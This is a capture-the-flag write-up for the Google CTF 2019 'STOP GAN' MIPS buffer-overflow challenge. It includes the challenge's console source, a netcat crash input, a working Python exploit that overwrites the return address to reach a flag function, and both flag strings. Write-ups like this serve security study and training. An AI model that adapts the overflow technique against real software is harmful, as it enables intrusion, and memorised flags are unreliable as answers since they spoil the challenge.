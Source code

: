 # STOP GAN (bof) (pwn)

Success, you've gotten the picture of your lost love, not knowing that pictures and the things you take pictures of are generally two seperate things, you think you've rescue them and their brethren by downloading them all to your ships hard drive. They're still being eaten, but this is a fact that has escaped you entirely. Your thoughts swiftly shift to revenge. It's important now to stop this program from destroying these "Cauliflowers" as they're referred to, ever again.

buffer-overflow.ctfcompetition.com 1337

Attachment: [4a8becb637ed2b45e247d482ea9df123eb01115fc33583c2fa0e4a69b760af4a](https://storage.googleapis.com/gctf-2019-attachments/4a8becb637ed2b45e247d482ea9df123eb01115fc33583c2fa0e4a69b760af4a)


### Solution

```bash
> file ./bof
bof: ELF 32-bit LSB executable, MIPS, MIPS32 rel2 version 1 (SYSV), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=a31c48679f10dc6945e7b5e3a88b979bebe752e3, not stripped
```
Yeah it's MIPS ... Let's take a look in a `console.c` file. This program doesn't do anything special, it just runs the `buf` app using the QEMU emulator.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

/**
 * 6e: bufferflow triggering segfault  - binary, compile with:
 * gcc /tmp/console.c -o /tmp/console -static -s
 *
 * Console allows the player to get info on the binary.
 * Crashing bof will trigger the 1st flag.
 * Controlling the buffer overflow in bof will trigger the 2nd flag.
 */

int main() {
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  setbuf(stderr, NULL);
  char inputs[256];
  printf("Your goal: try to crash the Cauliflower system by providing input to the program which is launched by using 'run' command.\n Bonus flag for controlling the crash.\n");
  while(1) {
    printf("\nConsole commands: \nrun\nquit\n>>");
    if (fgets(inputs, 256, stdin) == NULL) {
      exit(0);
    }
    printf("Inputs: %s", inputs);
    if ( strncmp(inputs, "run\n\0", 256) == 0 ) {
      int result = system("/usr/bin/qemu-mipsel-static ./bof");
      continue;
    } else if ( strncmp(inputs, "quit\n\0", 256) == 0 ) {
      exit(0);
    } else {
      puts("Unable to determine action from your input");
      exit(0);
    }
  }
  return 0;
}
```
`Crashing bof will trigger the 1st flag.` so let's do buffer overflow.
```bash
> nc -v buffer-overflow.ctfcompetition.com 1337
Connection to buffer-overflow.ctfcompetition.com 1337 port [tcp/*] succeeded!
Your goal: try to crash the Cauliflower system by providing input to the program which is launched by using 'run' command.
 Bonus flag for controlling the crash.

Console commands:
run
quit
>> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
CTF{Why_does_cauliflower_threaten_us}
Cauliflower systems never crash >>
segfault detected! ***CRASH***
Console commands:
run
quit
```

**FLAG: CTF{Why_does_cauliflower_threaten_us}**

`Controlling the buffer overflow in bof will trigger the 2nd flag.` In `bof` we can find the `local_flag` function which calls `print_file("flag1")`. It seems that we need to overwrite the return address with 0x0040084C, performing the buffer overflow.

![local_flag](https://raw.githubusercontent.com/mfurga/google-ctf/master/stop_gan/local_flag.png)

Exploit below:

```python
#!/usr/bin/env python2

import socket
import telnetlib
from struct import pack

def dd(n):
  """Define double word in little-endian."""
  return pack('<I', n)

if __name__ == '__main__':
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)

  s.connect(('buffer-overflow.ctfcompetition.com', 1337))
  s.sendall('run\n')

  payload = 'A' * (256 + 8)
  payload += dd(0x0040084C)[:3]

  s.sendall(payload + '\n')

  t = telnetlib.Telnet()
  t.sock = s
  t.interact()
```
```bash
> python exploit.py
Your goal: try to crash the Cauliflower system by providing input to the program which is launched by using 'run' command.
 Bonus flag for controlling the crash.

Console commands: 
run
quit
>>Inputs: run
CTF{controlled_crash_causes_conditional_correspondence}
Cauliflower systems never crash >>

Console commands: 
run
quit
>>
```


**FLAG: CTF{controlled_crash_causes_conditional_correspondence}**